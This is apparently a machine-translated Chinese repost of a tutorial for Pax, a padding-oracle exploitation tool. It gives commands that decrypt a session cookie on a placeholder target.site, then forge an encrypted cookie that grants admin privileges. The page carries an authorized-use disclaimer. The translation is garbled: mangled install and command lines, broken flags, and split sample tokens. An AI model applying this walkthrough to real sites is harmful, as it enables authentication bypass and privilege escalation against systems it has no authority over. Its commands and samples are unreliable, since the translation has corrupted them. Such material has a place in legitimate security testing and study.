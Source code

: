# Pax:用于 PKCS7 填充 Oracle 攻击的 CLI 工具

> 原文：<https://kalilinuxtutorials.com/pax/>

[![](img/dec04b68a6731209fb62289011324068.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjfYv4bNXaisG2Y_EOZ5liEeM0gJYm5bTt2quJcAaBPC0JgVd6hFNZuE5O88QqlMF9BuuesR8Cczm6EAEUd7OiZL62lnFWUn5yHh7my7hcOavikLxDc-DK7YGFd5ivDQ-cnZ3zDPrN_CJLKNlUQfvhp2XvxBAZgxur-P8qo7PlmhwuAjY0Yww830Hun/s728/pax%20(1).png)

**Pax** ，利用填充神谕取乐牟利！

Pax(填充 oracle eXploiter)是一个利用填充 oracle 的工具，目的是:

*   获取给定的 CBC 加密数据的明文。
*   使用 oracle 使用的未知加密算法获取给定明文的加密字节。

这可用于泄露加密的会话信息，通常可用于绕过身份验证、提升权限以及通过加密自定义明文并将其写回服务器来远程执行代码。

与往常一样，该工具只应在您拥有和/或有权探测的系统上使用！

## 安装

从版本下载，或使用 Go 安装:

**去 github.com/liamg/pax/cmd/pax 吧**

## 用法示例

如果您发现一个可疑的 oracle，其中加密的数据存储在一个名为`**SESS**`的 cookie 中，您可以使用以下命令:

**Pax decrypt–URL https://target.site/profile.php–sample gw3g8e 3 EJ 4 ai 9 wffn % 2 FD 0 urqkzyapfm 2 ufq % 2 F8 dw mow 4 nykzhx 07 BG % 3D % 3D–block-size 16–cookie " SESS = gw3g8e 3 EJ 4 ai 9 wffn % 2 FD 0 urqkzyapfm 2 ufq % 2 F8 dwmow 4 nykzhx 07 BG % 3D % 3D "**

这将有望给您一些明文，可能类似于:

**{ "用户 id": 456，" is_admin": false}**

看起来你可以提升你在这里的特权！

您可以尝试这样做，首先生成您自己的加密数据，oracle 会将这些数据解密为一些偷偷摸摸的明文:

**Pax encrypt URL https://target . site/profile . PHP–sample GW 3kg 8 E3 EJ 4 ai 9 wffn % 2 FD 0 urqzyf2f 2 ufq % 8dwmow 4 wnyzhx 07 BG % 3d–block-size 16–cookies–plain-text 456，**

这将产生另一组 base64 编码的加密数据，可能类似于:

**dghpcybpcybqdxn 0 igfuigv 4 yw1 wbgu =**

现在，您可以打开浏览器，将`**SESS**` cookie 的值设置为上面的值。加载原始的 oracle 页面，您现在应该看到您被提升到管理员级别。

[**Download**](https://github.com/liamg/pax)